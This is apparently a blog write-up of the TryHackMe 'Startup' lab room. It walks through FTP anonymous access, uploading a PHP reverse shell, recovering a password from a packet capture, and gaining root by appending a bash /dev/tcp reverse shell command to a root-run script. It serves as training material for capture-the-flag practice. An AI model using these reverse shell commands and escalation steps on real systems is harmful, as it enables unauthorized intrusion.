 ```yaml
---
layout: post
title: Tryhackme - Startup
date: 2020-11-19 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,reverse-shell,easy,file-upload]
---
```


---
<p>Startup is a Tryhackme room which is focused on file-upload vulnerability. The final objective is to get the user and the root flag</p>
<br>
![cover_image](/assets/img/tryhackme/startup/1.png)

**Author** | r1gormort1s
**Description** | Abuse traditional vulnerabilities via untraditional means

<p>Deploy the VM and let's go.</p>

## <ins>Finding the secret recipe</ins>
---
First up is enumeration.
<br>
<pre>nmap -T4 -sV -sC -vv --min-rate=100000 10.10.10.208</pre>
<br>
![nmap_scan](/assets/img/tryhackme/startup/nmap_scan.png)
<br>
From the nmap scan we can see that Anonymous login is allowed in ftp service.
<br>
![ftp_login](/assets/img/tryhackme/startup/3.png)
<br>
I saw two files and a folder. The text file is just a message and there was no information in the image. Even inside the folder there was nothing...I was like.."then why is the ftp service even open".

Then I tried enumerating the http service and found this in the source page.
<br>
![home_page_comment](/assets/img/tryhackme/startup/2.png)
<br>
It didn't make any sense so, I used gobuster to bruteforce the directories.
<br>
![gobuster](/assets/img/tryhackme/startup/4.png)
<br>
![hint](/assets/img/tryhackme/startup/5.png)
<br>
I saw the hint and found that the dir is the same as the folder in ftp service.
<br>
![ftp_http](/assets/img/tryhackme/startup/8.png)
<br>
Get a copy of php reverse shell and change the ip and the port values. In Kali linux the php reverse shell can be found in the location ```/usr/share/webshells/php/php-reverse-shell.php```
<br>
![reverse_shell](/assets/img/tryhackme/startup/6.png)

<br>
So, I logged into the ftp service again and uploaded the php reverse shell in the /ftp directory.
<br>
<pre>put file-name</pre>
<br>
![upload](/assets/img/tryhackme/startup/7.png)
<br>
If you go to the /ftp directory in the webpage you can see the reverse shell.
<br>
![reverse_shell_page](/assets/img/tryhackme/startup/9.png)

Open a netcat listener and click on the reverse shell.
<br>
![shell](/assets/img/tryhackme/startup/10.png)
<br>

The answer to the first question can be found in the text file located in the root("/") directory.
<br>
![recipe](/assets/img/tryhackme/startup/11.png)
<br>

## <ins>User flag</ins>
---
Use the find command to get more information about the files that can be much use.
<br>
<pre>find / -user www-data 2>/dev/null</pre>
<br>
![find1](/assets/img/tryhackme/startup/12.png)
<br>
Go to the folder and download the file by running this on the remote machine
<br>
<pre>python -m SimpleHTTPServer 8080</pre>
<br>
And this on the local machine
<br>
<pre>wget http://remote-machine-ip:8080/file-name.pcapng</pre>
<br>

In this file, I found the password for the username **lennie**.
<br>
<pre> strings file-name.pcapng</pre>
<br>
![passwd_lennie](/assets/img/tryhackme/startup/13.png)
<br>
Log in with the username lennie using ```su lennie```

We can get the user flag from the home directoy of lennie
<br>
![user_flag](/assets/img/tryhackme/startup/14.png)
<br>

## <ins>Root flag</ins>
---
I found nothing useful in the directory ```/Documents```.
But inside the /scripts directory I saw a interesting file.
<br>
![planner_script](/assets/img/tryhackme/startup/15.png)
<br>

From the image we can see that the file is owned by root and it executes another file. This file is owned by lennie.
<br>
![print_script](/assets/img/tryhackme/startup/16.png)

So, it seems that ```planner.sh``` (which cannot be edited by lennie) runs ```print.sh``` (which can be edited by lennie). So root shell can be obtained by editing the print.sh file.

Append the reverse shell payload into the print.sh file
<br>
<pre> echo "bash -i /dev/tcp/your-vpn-ip-addr/4444 0>&1" >> /etc/print.sh</pre>
<br>

Open a netcat listener in your local machine and wait for a minute to get the reverse shell

<br>
![root_flag](/assets/img/tryhackme/startup/17.png)
<br>

There we go!!! Root flag obtained.

That's it folks. Happy Hacking!!!
